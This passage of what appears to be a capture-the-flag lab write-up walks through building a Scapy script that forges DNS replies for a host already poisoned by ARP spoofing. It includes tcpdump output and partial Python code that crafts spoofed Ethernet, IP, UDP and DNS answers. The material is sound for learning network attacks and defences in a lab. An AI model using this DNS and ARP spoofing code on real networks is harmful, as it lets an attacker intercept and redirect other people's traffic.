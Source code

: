 ```text
guest@b0fe959ddcac:~/scripts$ tcpdump -n "port 53"
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
16:09:39.597827 IP 10.6.6.35.28203 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
```

The incoming DNS request came from 10.6.6.35 on port 28203 to 10.6.6.53 on port 53. That means our reply needs to be sent to 10.6.6.35 on port 28203, coming from port 53. The thing is though, every request coming in from 10.6.6.35 will have a random high port like this (it’s part of how TCP/IP works), so we need to make sure we parse that in our python script to ensure the reply is sent where it's expected.

Layer 3 aside, we also need to remember that this DNS request came in to us as a result of an ARP spoofing attack, so when we craft the reply packet we need to ensure that we have the correct layer 2 packet configured as well.

Let's complete the script sections that will deal with the TCP/IP transport first, and then we'll move on the DNS specific portion of the packet.

```python
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.35"
us = ni.ifaddresses('eth0')[ni.AF_LINK][0]['addr']
them = "4c:24:57:ab:ed:84"

def handle_dns_request(packet):
    eth = Ether(src=us, dst=packet[Ether].src)                  # need to replace mac addresses
    ip  = IP(dst=packet[IP].src, src=packet[IP].dst)            # need to replace IP addresses
    udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport) # need to replace ports
    dns = DNS(
      # incomplete for now
    )
    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")
```

You should see in the above snippet that fields such as the source MAC address, the source port etc. are all parsed from the received packet stored in a variable called `packet`. Scapy makes it really simple to extract fields from a packet and here you can see how that is useful.

Alright, let's move on to the `DNS()` field. I found two resources that were immensely useful in recreating the necessary DNS packet. Those were <https://thepacketgeek.com/scapy/building-network-tools/part-09/> and <https://www.cs.dartmouth.edu/~sergey/netreads/local/reliable-dns-spoofing-with-python-scapy-nfqueue.html>. My initial attempts at this resulted in a `DNS()` field that looked like this:

```python
    dns = DNS(
        id=packet[DNS].id,
        qd=packet[DNS].qd,
        an=DNSRR(rrname=packet[DNSQR].qname, rdata=ipaddr)/DNSRR(rrname="ftp.osuosl.org",rdata=ipaddr)
    )
```
